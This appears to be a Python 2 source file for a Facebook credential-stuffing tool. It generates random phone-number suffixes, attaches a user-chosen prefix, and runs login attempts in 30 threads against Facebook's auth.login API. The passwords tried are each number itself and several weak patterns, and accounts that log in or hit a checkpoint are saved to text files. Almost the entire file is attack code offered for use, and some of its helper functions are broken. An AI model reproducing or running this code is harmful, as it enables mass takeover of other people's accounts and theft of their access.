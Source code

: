 import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
os.system('rm -rf .txt')
for n in range(5000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()

try:
    import requests
except ImportError:
    os.system('No Module Named wget! type:pip2 install wget')

try:
    import mechanize
except ImportError:
    os.system('No Module Named Mechanize! type:pip2 install mechanize')
    time.sleep(1)
    os.system('Then type: python2 FB.py')

import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, requests, mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def keluar():
    print 'Thanks.'
    os.sys.exit()


def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!' + w[random.randint(0, len(w) - 1)] + i

    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x = x.replace('!%s' % i, '\x1b[%s;1m' % str(31 + j))

    x += '\x1b[0m'
    x = x.replace('!0', '\x1b[0m')
    sys.stdout.write(x + '\n')


def jalan(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.1)


def tik():
    titik = ['.   ', '..  ', '... ']
    for o in titik:
        print '\r\x1b[1;94mWaiting... \x1b[1;93m' + o,
        sys.stdout.flush()
        time.sleep(1)


def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


back = 0
oks = []
id = []
cpb = []
vulnot = '\x1b[31mNot Vuln'
vuln = '\x1b[32mVuln'
os.system('clear')
logo = """ 
           
\x1b[1;91m  _____  _      ______      __     _   _ 
\x1b[1;91m |  __ \| |    / __ \ \    / /\   | \ | |
\x1b[1;91m | |  | | |   | |  | \ \  / /  \  |  \| |
\x1b[1;91m | |  | | |   | |  | |\ \/ / /\ \ | . ` |
\x1b[1;91m | |__| | |___| |__| | \  / ____ \| |\  |
\x1b[1;91m |_____/|______\____/   \/_/    \_\_| \_|
\x1b[1;98m---------------------
\x1b[1;98mAUTHUR : DLOVAN
\x1b[1;98mTelegram : @kak_dlovan
\x1b[1;98m----------------------
   


        """
logo2 = """                                                                     
                                                                        
\x1b[1;91m  _____  _      ______      __     _   _ 
\x1b[1;91m |  __ \| |    / __ \ \    / /\   | \ | |
\x1b[1;91m | |  | | |   | |  | \ \  / /  \  |  \| |
\x1b[1;91m | |  | | |   | |  | |\ \/ / /\ \ | . ` |
\x1b[1;91m | |__| | |___| |__| | \  / ____ \| |\  |
\x1b[1;91m |_____/|______\____/   \/_/    \_\_| \_|
\x1b[1;98m---------------------
\x1b[1;98mAUTHUR : DLOVAN
\x1b[1;98mTelegram : @kak_dlovan
\x1b[1;98m----------------------

       """
CorrectUsername = 'Kak'
CorrectPassword = 'dlovan'
os.system('clear')
print logo2
loop = 'true'
while loop == 'true':
    username = raw_input('\x1b[1;97m\xe2\x9e\xa3\x1b\x1b[31;1mTOOL USERNAME: ')
    if username == CorrectUsername:
        password = raw_input('\x1b[1;97m\xe2\x9e\xa3\x1b\x1b[31;1mTOOL PASSWORD: ')
        if password == CorrectPassword:
            print '\x1b[1;92m[\xe2\x9c\x93] Tawawa  ' + username
            time.sleep(3)
            loop = 'false'
        else:
            print 'Pass Halaya'
    else:
        print 'User Halaya'

def lisensi():
    os.system('clear')
    menu()


def menu():
    os.system('clear')
    print logo
    print 42 * '\x1b[1;99m='
    print '\x1b[1;99m[1]\x1b[1;99m KURD        \x1b[1;92m\xe2\x87\x8b  \x1b[1;99m[!]\x1b[1;93m Dlovan Up '
    print 42 * '\x1b[1;99m='
    action()


def action():
    global cpb
    global oks
    bch = raw_input('\n\x1b[1;90mHALBZHERA \x1b[1;98m>>>\x1b[1;93m  ')
    if bch == '':
        print '[!] Fill in correctly'
        action()
    elif bch == '1':
        os.system('clear')
        print logo
        print '\x1b[1;99m0770, 0750 0773, 0751 ,0772 ,0771 ,0781 ,0782 ,0783 ,0774 '
        try:
            c = raw_input(' CODE HALBZHERA : ')
            k = ''
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()
    elif bch == '0':
        exb()
    else:
        print '[!] Fill Ba Kalk Naya'
        action()
    xxx = str(len(id))
    psb('[\xe2\x9c\x93] Total Numbers: ' + xxx)
    time.sleep(0.1)
    psb('\x1b[1;94m[\xe2\x8c\x92]\x1b[1;94m Wait To Crack ...')
    time.sleep(0.1)
    psb('[!] Bo  Ragrtn    CTRL+Z')
    time.sleep(0.5)
    print 42 * '\x1b[1;97m='

    def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass

        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[SUCCESSFULLL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass1 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;91m[CHEKPOINT]\x1b[1;91m ' + k + c + user + ' >>> ' + pass1 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
            else:
                pass2 = '1122334455'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[SUCCESSFULL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass2 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass2 + '\n')
                okb.close()
                oks.append(c + user + pass2)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;91m[CHEKPOINT]\x1b[1;91m ' + k + c + user + ' >>> ' + pass2 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass2 + '\n')
                cps.close()
                cpb.append(c + user + pass2)
            else:
                pass3 = '1234554321'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[SUCCESSFULL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass3 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass3 + '\n')
                okb.close()
                oks.append(c + user + pass3)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;91m[CHEKPOINT]\x1b[1;91m ' + k + c + user + ' >>> ' + pass3 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass3 + '\n')
                cps.close()
                cpb.append(c + user + pass3)
            else:
                pass4 = '112233445566'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[SUCCESSFULL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass4 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass4 + '\n')
                okb.close()
                oks.append(c + user + pass4)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;91m[CHEKPOINT]\x1b[1;91m ' + k + c + user + ' >>> ' + pass4 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass4 + '\n')
                cps.close()
                cpb.append(c + user + pass4)
            else:
                pass4 = '11223344556677'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[SUCCESSFULL]\x1b[1;92m ' + k + c + user + ' >>> ' + pass4 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '>>>' + pass4 + '\n')
                okb.close()
                oks.append(c + user + pass4)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;91m[CHEKPOINT]\x1b[1;91m ' + k + c + user + ' >>> ' + pass4 + '\n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '>>>' + pass4 + '\n')
                cps.close()
                cpb.append(c + user + pass4)
        except:
            pass

    p = ThreadPool(30)
    p.map(main, id)
    print 42 * '\x1b[1;91m='
    print '[\xe2\x9c\x93]\x1b[1;93m Process Has Been Completed ....'
    print '[\xe2\x9c\x93]\x1b[1;92m Total successfull/\x1b[1;96mcheckpoint : ' + str(len(oks)) + '/' + str(len(cpb))
    print '[\xe2\x9c\x93]\x1b[1;91m CP File Has Been Saved : save/checkpoint.txt'
    raw_input('\n[Press Enter To Go Back]')
    os.system('python2 .README.md')
if __name__ == '__main__':
    menu()
